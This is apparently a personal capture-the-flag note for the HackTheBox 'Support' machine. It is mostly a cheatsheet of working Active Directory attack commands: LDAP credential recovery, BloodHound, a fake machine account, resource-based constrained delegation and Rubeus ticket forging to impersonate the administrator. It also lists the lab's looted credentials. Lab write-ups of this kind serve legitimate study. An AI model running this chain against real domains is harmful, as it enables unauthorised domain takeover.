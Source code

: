 ```yaml
---
description: Guided Mode + IppSec
---
```


# Support \[Windows Easy]

## Report

Fill

{% embed url="https://www.hackingarticles.in/a-detailed-guide-on-rubeus/" %}

## Cheatsheet

```
smbclient enumeration (List shares and files available)
scp -r support jeanv@192.168.68.110:/C:/Users/jeanv/Downloads
dnspy.exe (Windows .NET Disassembler)
netexec smb support.htb -u ldap -p nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz (Check if creds valid)
Get hardcoded password for 'ldap' from UserInfo.exe by checking the functions and XOR encrypted cipher with key
neolog4j console
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
bloodhound
evil-winrm -i support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 

ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep "User" -B 20 -A 20
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" '(&(objectClass=Person)(cn=support))'| grep "User" -A 20 -B 20

evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
upload /usr/share/windows-resources/Powermad/Powermad.ps1
upload /usr/share/windows-resources/Rubeus.exe

Bloodhound show new vector
. ./PowerView.ps1
. ./Powermad.ps1

New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
[+] Machine account 0xdfFakeComputer added
$fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

$RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
$Descriptor.DiscretionaryAcl

.\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
.\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
.\Rubeus.exe klist

base64 -d ticket.kirbi.b64 > ticket.kirbi
./ticketConverter.py ~/htb/support/ticket.kirbi ~/htb/support/ticket.ccache
export KRB5CCNAME=/home/jtripz/htb/support/ticket.ccache; python3 psexec.py support.htb/administrator@dc.support.htb -k -no-pass


#WHY DID THIS NOT WORK 
New-MachineAccount -MachineAccount attackersystem71 -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
$compsid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($compsid))"
$sdbytes = New-Object byte[] ($sd.BinaryLength)
$sd.GetBinaryForm($sdbytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$sdbytes}
.\Rubeus.exe s4u /user:attackersystem71$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/dc.support.htb /ptt

```

## Loot

### Creds

ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

support:Ironside47pleasure40Watchful

### Proof

<figure><img src="../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure></div>

## In-Game Pitch Notes

None, 0xdf and htb guided mode

## Lessons Learnt

windows and kali vm mutual comms&#x20;

smbclient and netexec initial enum

dnspy debugging and reveng password for ldap

ldapsearch filters and structure

bloodhound node and group analysis
